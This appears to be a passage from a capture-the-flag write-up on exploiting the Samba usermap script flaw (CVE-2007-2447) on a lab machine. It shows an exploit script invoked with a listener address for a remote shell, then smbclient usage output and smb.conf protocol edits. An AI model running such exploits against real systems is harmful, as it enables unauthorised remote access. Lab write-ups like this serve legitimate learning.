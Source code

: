 {% code lineNumbers="true" %}
```
└─# python usermap_script.py 10.10.10.3 139 10.10.14.6 4444
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !

```
{% endcode %}

This script did not work. Reaserch led me to another python script to try.

<figure><img src="../../.gitbook/assets/Screenshot 2022-12-08 155612.png" alt=""><figcaption></figcaption></figure>

This python script did not work for me either. After further research, I found a video explaining how to use smbclient and logon commands to gain access to 10.10.10.3.

### Smbclient command

This tool is part of the Samba suite. Offers an interface similar to that of the ftp program allowing communication to an SMB/CIFS server.

Locate the .conf file for smbclient and add following lines to the global section.

{% code lineNumbers="true" %}
```
└─# smbclient                                                               
Usage: smbclient [-?EgqBVNkPeC] [-?|--help] [--usage] [-R|--name-resolve=NAME-RESOLVE-ORDER]
        [-M|--message=HOST] [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST]
        [-m|--max-protocol=LEVEL] [-T|--tar=<c|x>IXFvgbNan] [-D|--directory=DIR]
        [-c|--command=STRING] [-b|--send-buffer=BYTES] [-t|--timeout=SECONDS] [-p|--port=PORT]
        [-g|--grepable] [-q|--quiet] [-B|--browse] [-d|--debuglevel=DEBUGLEVEL]
        [-s|--configfile=CONFIGFILE] [-l|--log-basename=LOGFILEBASE] [-V|--version]
        [--option=name=value] [-O|--socket-options=SOCKETOPTIONS] [-n|--netbiosname=NETBIOSNAME]
        [-W|--workgroup=WORKGROUP] [-i|--scope=SCOPE] [-U|--user=USERNAME] [-N|--no-pass]
        [-k|--kerberos] [-A|--authentication-file=FILE] [-S|--signing=on|off|required]
        [-P|--machine-pass] [-e|--encrypt] [-C|--use-ccache] [--pw-nt-hash] service <password>
                                                                                                    
┌──(root㉿kali)-[/home/kali/CVE-2007-2447]
└─# locate smb.conf                                 
/etc/samba/smb.conf
/usr/share/doc/samba-common/examples/smb.conf.default
/usr/share/man/man5/smb.conf.5.gz
/usr/share/samba/smb.conf
/usr/share/samba/smb.conf.original
/var/lib/ucf/cache/:etc:samba:smb.conf
                                                                                                    
┌──(root㉿kali)-[/home/kali/CVE-2007-2447]
└─# nano /etc/samba/smb.conf

```
{% endcode %}

{% code lineNumbers="true" %}
```
[global]

client min protocol = NT1
client max protocol = SMB3
```
{% endcode %}
